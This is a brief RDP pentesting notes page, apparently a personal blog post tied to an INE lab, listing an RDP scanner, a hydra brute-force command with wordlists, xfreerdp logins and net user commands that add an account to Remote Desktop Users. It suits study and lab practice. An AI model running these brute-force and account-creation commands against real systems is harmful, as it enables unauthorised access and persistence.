 ```yaml
---
title: 'RDP'
description: ''
pubDate: 'Jul 03 2022'
heroImage: '/ldapi.jpg'
tag: ['windows', 'RDP']
---
```


## Information

- The Remote Dektop Protocol is propriertary GUI remote access protocol developed by Microsoft and is used to remotely connect and interact with a windows system.

- Uses 3389 TCP port by default, .

- Requires authentication.

- Can perform a brute-force attack

```bash
# Detect if that port its really a rdp.
$ mfsconsole use auxiliary/scanner/rdp/rdp_scanner

# Brute force.
$ hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/linux_pass.txt rdp://target -s 3389

$ xfreerdp /u:administrator /p:password123  /v:ta rget:port
```

crear usuario rdp

```bash
net user guest_1 guestpwd /add
net localgroup "Remote Desktop Users" guest_1 /add
net user
##

xfreerdp /u:guest_1 /p:guestpwd /v:demo.ine.local

```
